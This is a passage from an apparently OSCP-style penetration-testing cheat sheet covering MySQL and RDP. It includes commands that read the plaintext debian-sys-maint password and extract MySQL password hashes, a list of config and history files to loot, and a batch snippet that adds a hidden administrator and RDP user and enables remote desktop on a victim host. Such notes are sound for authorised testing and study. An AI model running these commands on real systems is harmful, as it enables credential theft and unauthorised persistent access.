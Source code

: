 ```sh
# contains plain-text password of the user debian-sys-maint
cat /etc/mysql/debian.cnf

# contains all the hashes of the MySQL users (same as what's in mysql.user table)
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### 4.16.3. Useful MySQL Files

- Configuration Files:
  - Windows
    - config.ini
    - my.ini
    - windows\my.ini
    - winnt\my.ini
    - INSTALL_DIR/mysql/data/
  - Unix
    - my.cnf
    - /etc/my.cnf
    - /etc/mysql/my.cnf
    - /var/lib/mysql/my.cnf
    - ~/.my.cnf
    - /etc/my.cnf
- Command History:
  - ~/.mysql.history
- Log Files:
  - connections.log
  - update.log
  - common.log


## 4.17. 3389 - RDP

Connect to Windows RDP

```sh
xfreerdp /d:domain /u:username /p:password +clipboard /cert:ignore /size:960x680 /v:$VICTIM_IP
# to attach a drive, use:
# /drive:share,/mnt/vm-share/oscp/labs/public/5-alice/loot
```

Add RDP User

```bat
net user derp herpaderp /add
net localgroup Administrators derp /add
net localgroup "Remote Desktop Users" derp /add
:: enable remote desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
:: delete user
net user hacker /del
:: disable remote desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744